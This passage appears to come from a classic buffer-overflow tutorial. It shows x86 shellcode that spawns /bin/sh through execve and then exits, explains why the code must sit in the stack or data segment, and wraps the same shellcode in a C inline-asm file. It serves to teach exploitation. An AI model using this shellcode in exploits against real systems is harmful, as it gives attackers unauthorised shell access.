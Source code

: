 </PRE>
```nasm
      jmp    0x26                     # 2 bytes
      popl   %esi                     # 1 byte
      movl   %esi,0x8(%esi)           # 3 bytes
      movb   $0x0,0x7(%esi)           # 4 bytes
      movl   $0x0,0xc(%esi)           # 7 bytes
      movl   $0xb,%eax                # 5 bytes
      movl   %esi,%ebx                # 2 bytes
      leal   0x8(%esi),%ecx           # 3 bytes
      leal   0xc(%esi),%edx           # 3 bytes
      int    $0x80                    # 2 bytes
      movl   $0x1, %eax               # 5 bytes
      movl   $0x0, %ebx               # 5 bytes
      int    $0x80                    # 2 bytes
      call   -0x2b                    # 5 bytes
      .string \"/bin/sh\"             # 8 bytes
```
<PRE>

   Looks good. To make sure it works correctly we must compile it and run it.
But there is a problem.  Our code modifies itself, but most operating system
mark code pages read-only.  To get around this restriction we must place the
code we wish to execute in the stack or data segment, and transfer control
to it.  To do so we will place our code in a global array in the data
segment.  We need first a hex representation of the binary code. Lets
compile it first, and then use gdb to obtain it.

shellcodeasm.c
</PRE>
```nasm
void main() {
__asm__("
        jmp    0x2a                     # 3 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        movb   $0x0,0x7(%esi)           # 4 bytes
        movl   $0x0,0xc(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax               # 5 bytes
        movl   $0x0, %ebx               # 5 bytes
        int    $0x80                    # 2 bytes
        call   -0x2f                    # 5 bytes
        .string \"/bin/sh\"             # 8 bytes
");
}
```
<PRE>
